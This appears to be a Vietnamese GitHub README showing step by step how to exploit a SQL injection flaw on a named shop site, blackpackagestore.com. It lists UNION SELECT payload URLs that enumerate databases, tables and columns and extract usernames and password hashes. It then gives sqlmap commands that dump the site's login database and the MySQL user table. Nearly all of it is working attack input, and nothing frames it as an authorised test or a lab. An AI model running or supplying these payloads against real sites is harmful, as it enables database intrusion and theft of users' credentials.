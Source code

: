 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/fd126029-74d6-4b5d-843e-aa1ef90ca9bd)

![image](https://github.com/user-attachments/assets/1dae9e7c-ede6-497c-bd76-4927cd8affc5)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/81472dc4-9128-4b8a-a717-ee4fadbfa595)

![image](https://github.com/user-attachments/assets/0935da4c-e509-4d8d-9af8-eefd9a3a2906)

![image](https://github.com/user-attachments/assets/9987c07c-51a6-4722-9bc7-7745975c3fde)

![image](https://github.com/user-attachments/assets/9ea8ba0d-4071-424b-98bb-1dde03b22b6f)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.tables+wHeRe+table_schema='login'`

![image](https://github.com/user-attachments/assets/998b38ce-8ccb-4b1b-b67a-94892b82c483)

**3. Liệt kê các cột trong bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+fRoM+information_schema.columns+wHeRe+table_name=%27users%27`

![image](https://github.com/user-attachments/assets/56202ebd-5494-4202-902c-8bcce97b7699)

**4. Trích xuất dữ liệu bất kì**
`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)


